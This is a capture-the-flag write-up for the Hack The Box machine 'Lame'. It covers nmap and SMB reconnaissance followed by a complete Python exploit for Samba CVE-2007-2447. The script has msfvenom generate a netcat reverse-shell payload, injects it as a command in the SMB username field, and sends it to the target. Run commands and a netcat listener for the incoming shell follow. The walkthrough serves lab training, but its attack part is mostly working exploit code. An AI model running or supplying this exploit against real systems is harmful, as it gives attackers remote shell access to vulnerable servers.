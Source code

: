 ```yaml
---
layout: single
title: Lame - Hack The Box
excerpt: "Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement."
date: 2025-05-26
classes: wide
header:
  teaser: /img2/lame.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Samba 3.0.20 < 3.0.25rc3 - Username Map Script [Command Execution]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.3
```

![](/img2/Pasted%20image%2020250526213420.png)

- Vulnerability and version scan

```bash
nmap -sCV -p21,22,139,445,3632 -vvv 10.10.10.3
```

![[Pasted image 20250526213902.png]]

- SMB enumeration

```bash
smbmap -H 10.10.10.3
```

![](/img2/Pasted%20image%2020250526215557.png)



## Exploitation

- Samba smbd 3.0.20-Debian (CVE-2007-2447)

https://github.com/n3rdh4x0r/CVE-2007-2447

```python
#!/usr/bin/python3
#exploit Samba smbd 3.0.20-Debian
from smb import *
from smb.SMBConnection import *
from subprocess import getoutput
import argparse


def generate_payload(lh, lp):
	payload = getoutput(f"msfvenom -p cmd/unix/reverse_netcat LHOST={lh} LPORT={lp} -f python 2>/dev/null | tail -n +1")
	#print(type(lh), type(lp))
	final_cmd = (payload)
	#print(final_cmd)
	"""
	in case of a print statement
	def get_payload():
	    tmp = sys.stdout
	    sys.stdout = StringIO()
	    exec(msfvenom() + "\nprint(buf)")
	    buf = sys.stdout.getvalue()
	    # restore stdout
	    sys.stdout = tmp
	    return buf
	    thanks to @Tony_Bamanaboni#0789 on discord
	"""

	l = {}
	exec(final_cmd, {}, l)
	return l["buf"] 
	


def main():
	parser = argparse.ArgumentParser(description = "Exploit Samba smbd 3.0.20-Debian CVE-2007-2447")
	parser.add_argument("-lh", type=str, help="LHOST -> attacker", required=True)
	parser.add_argument("-lp", type=str, help="LPORT -> attacker port", required=True)
	parser.add_argument("-t", type=str, help="target -> target ip", required=True)
	parser.usage = parser.format_help()
	args = parser.parse_args()

	
	#buf = generate_payload("10.10.14.170", 1337)
	buf = generate_payload(args.lh, int(args.lp)).decode()

	#print(f"here take the output biatch: {buf}")
	#exit(-1)
	print("Payload created & now sending it....")

	userID = "/=` nohup " + buf + "`"
	password = "password"
	victim_ip = args.t

	conn = SMBConnection(userID, password, "HELLO", "TEST", use_ntlm_v2=False)
	conn.connect(victim_ip, 445)


if __name__ == '__main__':
	main()
```

```bash
python3 exploit.py -lh 10.10.16.7 -lp 9000 -t 10.10.10.3
```

```bash
nc -nlvp 9000
```

![](/img2/Pasted%20image%2020250526215307.png)